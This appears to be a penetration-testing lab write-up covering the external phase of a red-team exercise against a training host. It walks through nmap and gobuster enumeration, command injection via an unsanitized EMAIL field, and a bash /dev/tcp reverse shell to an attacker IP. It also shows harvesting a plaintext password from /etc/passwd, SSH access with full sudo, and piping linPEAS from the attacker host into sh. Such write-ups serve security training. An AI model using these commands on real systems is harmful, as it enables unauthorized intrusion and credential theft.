





This first piece of our Red Team engagement will look to cover the external parameter security capabilities. We will cover several steps like enumeration and vulnerability exploitation.

FIeld	Value
External IP Range	192.168.80.0/24


# Enumeration
Our first batch of enumeration for our external scan with nmap shows us that a host is current up, and available to us.

Nmap command:
```bash
nmap -sn 192.168.80.0/24
```

Nmap command output:
```bash
┌─[notconcerned@parrot]─[~/Documents/CRTA-LAB/EPT]
└──╼ $nmap -sn 192.168.80.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-26 23:35 EST
Nmap scan report for 192.168.80.1
Host is up (0.17s latency).
Nmap scan report for 192.168.80.10
Host is up (0.27s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 10.13 seconds
```

## Found host
From here, we can try and dig in further to find out more about this specific host found on `192.168.80.10` so we will do a full port scan.

Nmap command:
```bash
nnmap -sS -p- -vvv -Pn -n 192.168.80.10
```

Nmap command output:

```bash
┌─[✗]─[root@parrot]─[/home/notconcerned/Documents/CRTA-LAB/EPT]
└──╼ #nmap -sS -p- -vvv -Pn -n 192.168.80.10 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-26 23:54 EST
Initiating SYN Stealth Scan at 23:54
Scanning 192.168.80.10 [65535 ports]
Discovered open port 22/tcp on 192.168.80.10
Discovered open port 80/tcp on 192.168.80.10

```

Our full port scan has shown that our host has both port 22 and port 80 opened, this allows us to enumerate this services further in depth.

Nmap will allow us to do this with the following command:
```bash 
nmap -sSCV -p22,80 192.168.80.10
```

Scan:
```bash
┌─[root@parrot]─[/home/notconcerned/Documents/CRTA-LAB/EPT]
└──╼ #nmap -sSCV -p22,80 192.168.80.10 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-27 00:00 EST
Nmap scan report for 192.168.80.10
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8d:c3:a7:a5:bf:16:51:f2:03:85:a7:37:ee:ae:8d:81 (RSA)
|   256 9a:b2:73:5a:e5:36:b4:91:d8:8c:f7:4a:d0:15:65:28 (ECDSA)
|_  256 3c:16:a7:6a:b6:33:c5:83:ab:7f:99:60:6a:4c:09:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Cyber WareFare Labs
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.14 seconds

```

## Webhost
Our enumeration lead to the discovery of a web server on port 80.


We diced to move forward by registrating with a test user. 


As we find ourselves in an ecommerce web application, we have decided to run a gobuster command to find any possible directories we might find interesting:

command
```bash
gobuster dir -u http://cyberwar.ops -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 40
```
Output:
```javascript
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cyberwar.ops
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 4249]
/search.php           (Status: 200) [Size: 444]
/.php                 (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://cyberwar.ops/assets/]
/registration.php     (Status: 200) [Size: 3823]
/report.php           (Status: 302) [Size: 11107] [--> index.php]
/add.php              (Status: 302) [Size: 13412] [--> index.php]
/css                  (Status: 301) [Size: 310] [--> http://cyberwar.ops/css/]
/down.php             (Status: 200) [Size: 326]
/js                   (Status: 301) [Size: 309] [--> http://cyberwar.ops/js/]
/os.php               (Status: 200) [Size: 727]
/career.php           (Status: 302) [Size: 13175] [--> index.php]
/logout.php           (Status: 302) [Size: 1] [--> index.php]
/config.php           (Status: 200) [Size: 2]
/fonts                (Status: 301) [Size: 312] [--> http://cyberwar.ops/fonts/]
/sam.txt              (Status: 200) [Size: 13]

```
Nothing immediate catches our attention but `os.php`. After travelling to it, we realize this replicates the functional logic of the newsletter sending function in the dashboard.


Looking deeper into our Subscribe Email functionality. We decide to use Burpsuite to easily manipulate our HTTP requests. We can see that the `EMAIL` input is easily modifiable.


Sending this request to Burpsuites repeater will allow to check its sanitization.

The `EMAIL` input is only sanitized in the frontend and allows for Remote Code Execution in the web host, proved by running `whoami` on the following POST request returning the www-data user:


# Foothold
We have found a RCE vulnerability in the web server through an unsanitized parameter. We will use this same vulnerability to use a reverse shell and connect into this host, were 10.10.200.206 is our attacking host, and 4444 is the listening port on this machine:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.200.206/4444 0>&1'
```

To avoid any URL encoding issues with the parameter, can use the following tool called [URLEncoder](https://www.urlencoder.org/es/) or Burpsuites Decoder tool to URL encode the string, the actual sent payload will look like:
```bash
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.200.206%2F4444%200%3E%261%27%20
```

Our attacking machine was setup with a netcat listener on port 4444 and reverse shell access has been set


Manual enumeration is done in the host under the www-data user, which has really low priviliges. A set of plaintext credentials are found in `/etc/passwd` for the user `privilege`:

```bash
www-data@ubuntu-virtual-machine:/etc$ cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
--[SNIP]--
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
mysql:x:129:135:MySQL Server,,,:/nonexistent:/bin/false

```
## Privilege Escalation

The found credentials give us SSH access into the same host through the user `privilege` with a password `Admin@962`.
```bash
ssh privilege@192.168.80.10
```

Running `sudo -l` allows us to check what commands we can run:
```bash
privilege@ubuntu-virtual-machine:~$ sudo -l
[sudo] password for privilege: 
Matching Defaults entries for privilege on ubuntu-virtual-machine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User privilege may run the following commands on ubuntu-virtual-machine:
    (ALL : ALL) ALL

```

To avoid manual enumeration, [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) is utilized.

Attacking host gets curled:
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```

```curl
# Local network
sudo python3 -m http.server #Host
```

In our web host over in 192.168.80.10
```bash
curl 10.10.200.206/linpeas.sh | sh #Victim

#or

curl 10.10.200.206/linpeas.sh -o linpeas.sh
```

Sourcing the script should work
```bash
source ./linpeas.sh
```

Some important information we get from our linpeas scan not involving vulnerabilities. This interface will be important for the internal piece:
```
                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════
                              ╚═════════════════════╝
╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information
link-local 169.254.0.0
ens32: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.80.10  netmask 255.255.255.0  broadcast 192.168.80.255
        ether 00:50:56:96:17:f9  txqueuelen 1000  (Ethernet)
        RX packets 152365  bytes 176914936 (176.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 125048  bytes 19022214 (19.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens34: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.98.15  netmask 255.255.255.0  broadcast 192.168.98.255
        ether 00:0c:29:28:1b:7e  txqueuelen 1000  (Ethernet)
        RX packets 8924  bytes 2918390 (2.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10163  bytes 2226934 (2.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  base 0x1000  

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 13972  bytes 4745588 (4.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13972  bytes 4745588 (4.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We find other interesting information like several SQL databases related to Mozilla Firefox which we enumerated:
```
-> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/favicons.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/formhistory.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/key4.db (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/permissions.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/places.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/protections.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/default/https+++gofile.io/ls/data.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/ls-archive.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/permanent/chrome/idb/1451318868ntouromlalnodry--epcr.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/permanent/chrome/idb/1657114595AmcateirvtiSty.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/permanent/chrome/idb/2823318777ntouromlalnodry--naod.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/permanent/chrome/idb/2918063365piupsah.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/permanent/chrome/idb/3561288849sdhlie.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage/permanent/chrome/idb/3870112724rsegmnoittet-es.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage.sqlite (limit 20)
 -> Extracting tables from /home/privilege/.mozilla/firefox/b2rri1qd.default-release/webappsstore.sqlite (limit 20)
 -> Extracting tables from /home/ubuntu/.cache/tracker/meta.db (limit 20)

```